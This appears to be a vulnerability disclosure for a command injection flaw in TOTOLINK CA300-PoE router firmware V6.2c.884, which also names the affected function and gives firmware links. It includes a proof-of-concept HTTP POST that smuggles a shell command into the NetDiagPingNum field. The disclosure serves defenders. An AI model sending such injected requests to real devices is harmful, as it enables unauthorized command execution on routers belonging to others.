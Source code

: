 # TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the NetDiagPingNum parameter in the function setNetworkDiag

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setNetworkDiag`.

## ![image-20230112103759214](images/1.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html



## Affected version

**Version: V6.2c.884**

![image-20230112103905821](images/2.png)

## Vulnerability details

POC1:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{"topicurl" :"setting/setNetworkDiag","NetDiagMethod" : "0", "NetDiagPingNum": "4||ls;"}
```

![image-20230112184654180](images/3.png)



The function `setNetworkDiag` is used to set the corresponding variable

![image-20230112182605470](images/5.png)

In function `showNetworkDiag`

![image-20230112182702672](images/6.png)

step into function `getDiagInfo`

![image-20230112182800857](images/7.png)